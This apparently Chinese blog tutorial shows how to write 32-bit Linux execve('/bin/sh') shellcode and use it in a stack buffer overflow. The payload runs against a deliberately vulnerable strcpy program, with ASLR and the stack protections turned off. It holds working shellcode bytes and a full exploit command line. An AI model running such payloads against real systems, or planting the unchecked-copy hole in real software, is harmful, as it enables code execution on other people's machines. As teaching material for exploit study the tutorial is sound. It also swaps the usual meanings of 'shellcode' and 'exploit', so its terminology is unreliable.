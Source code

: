 ```yaml
---
title: Linux 基本缓冲区溢出 shellcode 编写
date: 2016-3-10 18:56:46
tags: 
- 缓冲区溢出 
- ROP
- CVE
categories: exploit 编写
---
```

有关shellcode定义不是很了解的请参见 [shellcode 与 exploit](http://huirong.github.io/2016/04/16/shellcodeAndExploit/)
<!-- more -->
# 1 shellcode 分析
## 1.1 execve()系统调用
最基本的shellcode就是通过调用 execve() 新开一个shell。
C语言程序：
```
#include <stdio.h>
#include <unistd.h>

int main(int argc, char** argv){
    char* name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);

    return 0;
}
```
编译：gcc -o shell shell.c
运行：./shell
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1f9zy112hgwj30jg0443zh.jpg)
新打开了一个shell。

## 1.2 分析
execve(name[0], name, NULL);
- name[0]：/bin/sh 的地址
- name：以NULL结束的/bin/sh的地址的地址
- NULL

Linux 系统调用的参数一般存放在 ebx,ecx,edx,esi,edi 寄存器中。
因此参数分布存放情况
- ebx: "/bin/sh" 的地址,且 "/bin/sh" 后跟着 NULL
- ecx: "/bin/sh" 的地址的地址，且 /bin/sh 的地址后跟着NULL
- edx: NULL
- eax: 系统调用号
    execve()的系统调用号是 “11” 或 “0xb”

# 2 编写 exploit 
## 2.1 分析
完成 execve() 系统调用，转化为汇编需要以下几步：
1. 将以NULL结尾的字符串"/bin//sh" <font color="orange">push</font> 进栈
2. 在内存中有"/bin//sh"的地址，其后是一个 unsigned long 型的NULL值
3. 将0xb拷贝到寄存器EAX中(execve的系统调用号是0xb)
4. 将"/bin//sh"的地址 <font color="orange">mov</font> 到寄存器EBX中
5. 将"/bin//sh"地址的地址 <font color="orange">mov</font> 到寄存器ECX中
6. 将 NULL <font color="orange">mov</font> 到寄存器EDX中
7. 执行中断指令int $0x80

<font color="red">Tips：需要将 “/bin/sh” 以 4 byte 为单位分割成两部分 “/bin” 、”/sh”，但是 “/sh” 只有 3 byte，最后 1 byte 就会自动填充成 NULL，这是不允许的。因此在最前面增加一个 /，即 “//sh”，最后的字符串为 “/bin//sh”。</font>

## 2.2 汇编
对应的汇编程序 shellcode_execve.asm
```
section .text
global _start
_start:
    xor eax,eax
    push eax               ;NULL入栈
    push 0x68732f2f    ;0x68732f2f 即为//sh 的ASCII编码,注意大小端，将//sh入栈
    push 0x6e69622f    ;0x6e69622f 即为/bin 的ASCII编码，将 /bin 入栈
    mov ebx,esp          ;此时 esp 指向栈顶，即保存 以NULL结尾的"/bin//sh"，将此地址保存到 ebx 中
    push eax               ; NULL 入栈
    push ebx               ;以NULL结尾的"/bin//sh" 的地址入栈
    mov ecx,esp          ;"/bin//sh" 的地址的地址放入ecx，且 /bin//sh 的地址后跟着NULL
    xor edx,edx           ; NULL 放置到 edx
    mov al,0xb            ; execve()系统调用号 11 存放到 eax 中
    int 0x80
```

编译：nasm -f elf shellcode_execve.asm -o shellcode_execve.o
连接：ld -o shellcode_execve shellcode_execve.o 
运行：./shellcode_execve 

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f9zytwty6yj30k3020gmf.jpg)

## 2.3 提出二进制码
使用 objdump 提取二进制码：

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f9zywv42rjj30jg09kq5w.jpg)

exploit 为 
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
```

# 3 编写shellcode
有漏洞的程序 level.c
```
#include <stdio.h>
#include <string.h>

void function(char* a){
    char buf[128];
    strcpy(buf,a);
}

int main(int argc, char** argv){
    if(argc >=2 ){
        function(argv[1]);
        printf("%s\n",argv[1]);
    }

    return 0;
}
```

通过调试找到buf起始地址和返回地址，并计算偏移 offset（此过程过程略去不表）
则 shellcode 构造如下： exploit + nop*(offset - strlen(exploit)) + exploit起始地址（即buf起始地址）
最终的shellcode如下：
```
$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*115+"\x80\xef\xff\xbf"')
```

- 关闭地址随机化：echo 0 > /proc/sys/kernel/randomize_va_space
- 编译（关掉canary和DEP）：gcc -o level level.c -fno-stack-protector -z execstack
- 运行: 
```
./level $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*115+"\x80\xef\xff\xbf"')
```

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f9zz9tuh07j30k8069q4o.jpg)

# 4 参考文献
- [linux下shellcode编写入门](http://www.cnblogs.com/Lamboy/archive/2012/07/31/2616103.html)
- [Linux下本地exploit编写shellcode之一缓冲区溢出|转](http://blog.dutsec.cn/index.php/archives/7/)
- [如何编写并编译一个shellcode(linux)](http://fcinbj.blog.51cto.com/911909/473992)